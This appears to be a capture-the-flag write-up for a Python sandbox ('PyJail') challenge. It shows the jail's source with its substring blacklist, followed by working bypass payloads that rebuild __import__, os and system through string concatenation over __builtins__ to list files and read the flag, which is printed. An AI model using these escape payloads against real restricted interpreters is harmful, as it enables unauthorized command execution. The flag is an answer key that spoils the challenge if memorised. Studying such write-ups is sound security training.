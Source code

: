 # PRISON BREAK Cell 1 – 300 pts
Category: PyJail
Description:

This is just a PyJail

To connect:
nc 192.168.8.136 10014

## Challenge Overview
The server accepts arbitrary Python input, but blacklists certain keywords before executing the payload via os.execv. The main idea is to execute arbitrary Python code within a restricted environment, i.e., a PyJail.

jail.py:

```python

import os
import sys

confiscated_tools = ['os', 'import', 'flag', 'system']

hax = input("> ")
sys.stdin.close()

if len(hax) > 1024:
    exit(1)

for tool in confiscated_tools:
    if tool in hax:
        exit(1)

code = f"""
{hax}
""".strip()

os.execv(sys.executable, [sys.executable, "-c", code])
```


## Blacklist & Execution
Blacklisted substrings: ```"os", "import", "flag", "system"</span>```


The input is injected into a dynamically constructed string and executed via:

```python
python3 -c "<user_input>"
```
Any input containing blacklisted substrings gets rejected. Substring matching is used (if tool in hax), not full-word matching or regex. This makes it possible for "__import__" or even "syst" + "em" to be blocked, since "import" and "system" are substrings of those.


## Exploitation Strategy
To bypass the jail, I used the following strategy:

Avoid all blacklisted substrings, even when they appear within larger words.

Dynamically reconstruct banned keywords like "import", "os", and "system" using string concatenation.

Use __builtins__ as a starting point to avoid using import directly.

## Working Payloads
### Step 1: List the directory to confirm the flag file

``(__builtins__.__dict__['__im'+'port__']('o'+'s').__dict__['syst'+'em'])('ls')``

Output:
``flag.txt
run``

### Step 2: Read the flag
``(__builtins__.__dict__['__im'+'port__']('o'+'s').__dict__['syst'+'em'])('cat 
flag.txt')``

This bypasses the jail and prints the flag: CITU{th1s_1s_jus7_4n_ez_0n3_w4rd3n_1s_c4r3l3ss}










